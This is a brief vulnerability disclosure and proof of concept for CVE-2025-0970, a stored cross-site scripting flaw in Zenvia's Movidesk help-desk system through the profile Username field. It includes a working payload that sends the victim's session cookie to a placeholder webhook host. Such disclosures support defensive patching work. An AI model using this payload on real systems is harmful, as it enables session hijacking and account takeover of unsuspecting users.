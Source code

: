 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

**Affected Version: < 25.01.22**

**OBS: For this exploit, you must be authenticated!**


## POC

This vulnerability resides in the /Account/EditProfile page in Username parameter,

Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`.

Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`

https://IP/Account/EditProfile

---

## Reference

https://www.movidesk.com/
